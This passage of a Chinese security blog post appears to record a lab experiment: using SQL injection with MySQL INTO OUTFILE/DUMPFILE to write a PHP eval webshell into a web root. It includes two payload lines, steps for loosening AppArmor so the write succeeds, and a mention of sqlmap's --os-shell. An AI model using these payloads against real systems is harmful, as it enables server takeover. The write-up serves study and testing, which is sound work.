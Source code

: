 

```
union select 'php eval($_POST[a]);?' into outfile '/var/www/html/test.php';
union select 'php eval($_POST[a]);?' into dumpfile '/var/www/html/test.php';

```

尝试了一下写文件，报错提示没有权限。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123142339643-63843542.png)](https://github.com)


意料之中，因为正常情况下我们其实并不确定mysql是否有权限在我们指定的var/www/html目录下写文件。


解决文件写入权限的问题：



> 尝试把/var/www/html目录权限改为777，没成功。修改文件的属主等，均没成功 。。。
> 
> 
> 折腾了很久，最终找到了解决方法：[https://stackoverflow.com/questions/36391551/error\-1\-hy000\-cant\-create\-write\-to\-file\-errcode\-13\-permission\-denied](https://github.com)
> 
> 
> [![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241122195537692-1017477828.png)](https://github.com)
> 
> 
> 原因：如果mysqld处于强制模式，那么AppArmor就会限制进程对资源的访问权限，AppArmor和SELinux类似，也是一个Linux系统下的强制访问控制安全机制。


按照上图给出的解决方法，编辑`/etc/apparmor.d/usr.sbin.mysqld`文件，在文件底部的位置添加对/var/www/html目录的读写控制。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241122200339542-1262167260.png)](https://github.com)


修改完后，重新加载AppArmor，这次写入成功了。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123143316817-1701074008.png)](https://github.com)


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123143442084-98863415.png)](https://github.com)


尝试\-\-os\-shell也可以成功getshell。


[![image](https://img2024.cnblogs.com/blog/3222269/202411/3222269-20241123144511553-366699962.png)](https://github.com)


通过上面一系列的操作，其实可以看到，想要直接通过mysql数据库写shell的方式getshell是比较困难的。在实际环境中，这三个条件几乎不可能同时完全满足。


